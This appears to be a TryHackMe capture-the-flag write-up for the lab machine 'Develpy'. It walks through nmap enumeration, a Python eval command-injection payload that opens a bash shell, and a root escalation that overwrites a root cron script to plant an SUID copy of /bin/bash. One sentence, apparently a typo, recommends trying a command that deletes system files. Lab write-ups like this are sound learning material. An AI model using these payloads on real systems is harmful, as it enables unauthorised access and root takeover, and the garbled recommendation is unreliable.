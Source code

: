 ```yaml
---
title: "TryHackMe - Develpy"
author: Nasrallah
description: ""
date: 2023-03-05 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, python, commandinjection, cronjob]
img_path: /assets/img/tryhackme/develpy
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

## **Description**

Hello hackers, I hope you are doing well. We are doing [Develpy](https://tryhackme.com/room/) from [TryHackMe](https://tryhackme.com). This is an easy machine although it is rated medium. We find a python script listening on a high port which accepts input from us. We exploit that by injecting commands and getting a foothold. Once on the machine we find a multiple cronjobs running making easy for is to get root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.102.231                                                                                                                            
Host is up (0.096s latency).                                                                                                                                  
Not shown: 998 closed tcp ports (reset)                                                                                                                       
PORT      STATE SERVICE           VERSION                                                                                                                     
22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                                
| ssh-hostkey:                                                                                                                                                
|   2048 78c44084f442138e79f86be46dbfd446 (RSA)                                                                                                               
|   256 259df329a2624b24f28336cfa775bb66 (ECDSA)                                                                                                              
|_  256 e7a007b0b9cb74e9d6167d7a67fec11d (ED25519)                                                                                                            
10000/tcp open  snet-sensor-mgmt?                                              
| fingerprint-strings:                                                         
|   GenericLines:                                                              
|     Private 0days                                                            
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>                            
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0                                                  
|     SyntaxError: unexpected EOF while parsing                           
|   GetRequest:                                                                
|     Private 0days                                                            
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>                            
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>                                
|     NameError: name 'GET' is not defined                                
|   HTTPOptions, RTSPRequest:                                                  
|     Private 0days                                                            
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>                            
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>                                
|     NameError: name 'OPTIONS' is not defined
```

We found two open ports, 22 running SSH as usual and port 10000 is a python script called `exploit.py`.

Let's connect to the port 10000 using netcat.

![](1.png)

The script asks us to enter a number then proceeds to do what looks like to me a ping to localhost.

## **Foothold**

Searching for `python command injection`, i found this [article](https://www.stackhawk.com/blog/command-injection-python/) showcasing how to do so.

![](3.png)

With the payload `__import__('os').system("{command}")`, we can run system commands. The command shown in the article is harmful and recommend you try it because it will delete the system files.

To try if the payload works, we can try running the command `sleep 10` for example and see if the target responds to it by waiting 10 seconds before running the rest of `exploit.py`.

Trying that we indeed see that the script is vulnerable to command injection.

To get a shell, we can enter the following payload that would run `/bin/bash`

```python
__import__('os').system("bash")
```

![](2.png)

Great! We got a shell as user `king`.

## **Privilege Escalation**

On king's home directory two shell file.

![](4.png)

The `run.sh` file seems to kill the listening process for `exploit.py` then runs the same listener again.

the `root.sh` is executing python scrips in `/root/company/media/` directory.

There must be a cronjob on the system that's running those files, let's check

![](5.png)

Indeed there is a cronjob, and we see that root.sh is run by root and that's the file we'll exploit to get a root shell.

First we need remove the root.sh file since it is owned by root and we can't write to it.

```bash
mv root.sh root.sh.bak
```

Now we create a malicious `root.sh` that would make a copy of /bin/bash with suid bit set in the /tmp directory.

```bash
echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' > root.sh && chmod +x root.sh
```

Now we wait a bit for the cronjob to run and check the /tmp directory.

![](6.png)

Now we execute `/tmp/bash -p` to get a root shell.

```bash
king@ubuntu:~$ /tmp/bash -p
bash: cannot set terminal process group (748): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.3# whoami
root
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
